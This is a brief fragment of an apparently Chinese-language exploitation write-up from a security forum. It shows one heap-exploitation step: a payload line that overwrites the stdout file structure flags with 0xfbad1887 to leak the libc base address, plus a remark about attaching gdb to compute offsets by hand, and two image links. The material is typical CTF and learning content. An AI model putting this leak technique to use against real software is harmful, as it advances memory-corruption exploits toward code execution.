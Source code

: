 覆盖一字节泄露libcbase

- add(0x40,p64(0xfbad1887)+p64(0)\*3+b'\\x00')
- 图示，**直接gdb.attach到这个位置查看泄露出来的是什么然后手动算偏移**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f6bf4d05beb54d733a2931d00021c907f44e1d3f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-6d9d6461ecd5e0f4a0037d2e364dfe6c482b0a9f.png)